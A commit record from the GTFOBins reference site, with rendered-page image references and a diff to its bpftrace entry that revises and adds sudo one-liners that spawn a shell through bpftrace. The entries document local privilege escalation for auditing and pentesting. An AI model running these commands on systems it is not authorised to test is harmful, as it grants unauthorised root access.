

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/bpftrace.md, in a window 1280 px wide. Shown: the top 507 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Improve bpftrace sudo shell

```diff
--- a/_gtfobins/bpftrace.md
+++ b/_gtfobins/bpftrace.md
@@ -1,9 +1,10 @@
 ---
 functions:
   sudo:
-    - code: sudo bpftrace -e 'BEGIN {system("/bin/sh")}'
+    - code: sudo bpftrace -e 'BEGIN {system("/bin/sh");exit()}'
     - code: |
         TF=$(mktemp)
-        echo 'BEGIN {system("/bin/sh")}' >$TF
+        echo 'BEGIN {system("/bin/sh");exit()}' >$TF
         sudo bpftrace $TF
+    - code: sudo bpftrace -c /bin/sh -e 'END {exit()}'
 ---
```
